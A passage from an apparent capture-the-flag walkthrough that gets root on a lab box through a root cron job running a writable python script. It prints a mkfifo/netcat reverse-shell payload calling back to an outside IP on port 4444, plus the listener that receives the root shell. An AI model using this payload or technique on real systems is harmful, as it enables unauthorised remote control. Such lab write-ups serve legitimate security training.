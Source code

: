 find the eye now...its a python file somewhere..just use

```
kidman@evilwithin:/home/kidman$ find / -name *string_to_look_for* 2>/dev/null
....
```
```
kidman@evilwithin:/place$ cat .the_script_bro.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)
```
Running it as kidman will get us nowhere...so I suspect this to be a root `cron` job

```
kidman@evilwithin:~$ cat /etc/crontab 

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2 * * * * root python3 /place/.the_script_found.py
```
Bingo! 2 minutes of patience!

Ok now add reverse shell for action

```
import os

os.system("mkfifo /tmp/kirxhbg; nc 10.8.226.203 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg")
```
Now we are supreme

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 57736
id
uid=0(root) gid=0(root) groups=0(root)

```

First things first

```
cat root.txt
get_root_flag_here
```

then the extra
